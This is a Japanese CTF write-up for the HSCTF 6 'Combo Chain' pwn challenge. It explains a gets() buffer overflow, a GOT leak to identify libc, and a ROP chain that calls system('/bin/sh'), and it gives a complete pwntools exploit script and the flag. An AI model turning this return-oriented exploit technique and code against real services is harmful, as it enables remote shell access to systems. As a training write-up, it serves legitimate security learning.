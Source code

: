 ```yaml
---
tags: pwn
---
```


# HSCTF 6 - Combo Chain

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## 公式リポジトリ

<https://github.com/hsncsclub/HSCTF-6-Problems>

## Writeup

### outline

※追記: libc databaseを使う前提で書いていますが、配られたリポジトリに無かっただけで解いた人間に聞いたらlibcは配られていたらしいです、ちなみに2.23

`vuln`関数内に`gets`による自明なBOFがある。よってROPでどこかのGOTをprintfでﾀﾞﾊﾞｧしてlibc配置アドレスを求め、`system`のオフセットを足したものを2度目のROPで流し込みシェルを起動する
一般的なROPだがlibcが配られていないので2つ以上のシンボルの位置を一旦リークし、libc databaseにぶん投げる必要がある。

### libcバージョンの特定

今回はlibcが配布されていないっぽいのでlibc database searchという素晴らしいサービスを使う。こいつはlibc内の2つのシンボルの差分がlibc毎に一定であることからシンボルのオフセットを2つ以上与えると対応するlibcのバージョンを推定してくれる。
というわけでret2plt(`printf(func1@got)`) -> ret2main -> ret2plt(`printf(func2@got)`)という2回のprintfで2箇所の関数シンボルのアドレスを入手する

libcの特定用に構成したROPチェーンは次の通り
```
rbp - 0x08 : aaaaaaaa
rbp        : aaaaaaaa
rbp + 0x08 : &(ret)  # printf用のalignment調整
rbp + 0x10 : &(pop rdi; ret)
rbp + 0x18 : func1@got (setbufを使用)
rbp + 0x20 : printf@plt
rbp + 0x28 : &(vuln) + 0x1  # ret2main用のalignment調整
```
これでひとまず`vuln`の先頭に戻った上に`func1@got`の中身、つまり`func1`の配置先を知ることが出来る。
あとはこれと同じもの別の関数の配置先を知るように構成すれば良い

libcのバージョンが判明したところでもう一度exploitを構築する。

### libc配置先の特定

いつもの作業
さっきのバージョン特定と同じペイロードで配置先がわかるので、事前にlibc中のオフセットを調べておき、引けば求まる。今回はlibc databaseがオフセットをくれたのでそれを流用する。

### シェル起動

さて、`vuln`の先頭に戻ってきたところで求めたベースアドレスに`system`のオフセットを足して挙げると`system`の配置場所が判明する。今度はこれをROPに仕込むのだが引数である`"/bin/sh\x00"`が必要
ここでバイナリ中を頑張って探すと存在するので(一番最初のメッセージが`Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: `であるが、実はこれはバイナリ中だと2つに分割されており、その境界が綺麗に`/bin/sh`と`? Enter`である)そこのアドレスをROP Gadgetでrdiに仕込んで`system`を呼べば無事にシェルが起動できる


## Code

```python
from pwn import remote, p64, u64, ELF, process


def pad_u64(b):
    while len(b) < 8:
        b += b"\x00"

    return u64(b)

if __name__ == '__main__':
    target = "localhost"
    port = 2345
    s = remote(target, port)
    # s = process("./combo-chain")
    print(s.recvuntil(b"!: "))

    elf = ELF("./combo-chain")

    # plt, got
    setbuf_got = elf.got["setbuf"]
    gets_got = elf.got["gets"]
    printf_plt = elf.plt["printf"]

    # libc (libc-2.23)
    # https://libc.blukat.me/?q=gets%3A7d80%2Csetbuf%3Af6b0&l=libc6_2.23-0ubuntu10_amd64
    libc = {
        "system": 0x45390,
        "gets": 0x6ed80,
        "setbuf": 0x766b0
    }

    # text
    binsh = next(elf.search(b"/bin/sh"))
    print(hex(binsh))

    # gadget
    ret_vuln = 0x401167
    pop_rdi = 0x401263
    ret = 0x40101a

    junk_offset = 16
    payload = b"a" * junk_offset
    payload += p64(ret)
    payload += p64(pop_rdi)
    payload += p64(setbuf_got)
    payload += p64(printf_plt)
    payload += p64(ret_vuln)

    s.sendline(payload)
    r = s.recv(6)
    libc_base = pad_u64(r) - libc["setbuf"]

    # print("setbuf:", hex(pad_u64(r)))
    print("libc base:", hex(libc_base))
    s.recvuntil(b"!: ")

    payload = b"a" * junk_offset
    payload += p64(ret)
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(libc_base + libc["system"])

    s.sendline(payload)

    s.interactive()

    """ determine libc version
        payload += p64(gets_got)
        payload += p64(printf_plt)
        payload += p64(ret_vuln)

        s.sendline(payload)
        r = s.recv(6)

        print("gets:", hex(pad_u64(r)))
    """

```

## Flag

本番環境をDockerで再現出来たので当日は解いていない
`hsctf{i_thought_konami_code_would_work_here}`

## 参考文献(というかツール)

* [libc database search](https://libc.blukat.me/): 2つ以上の関数のオフセットを指定すると使われているlibcを教えてくれるすごいやつ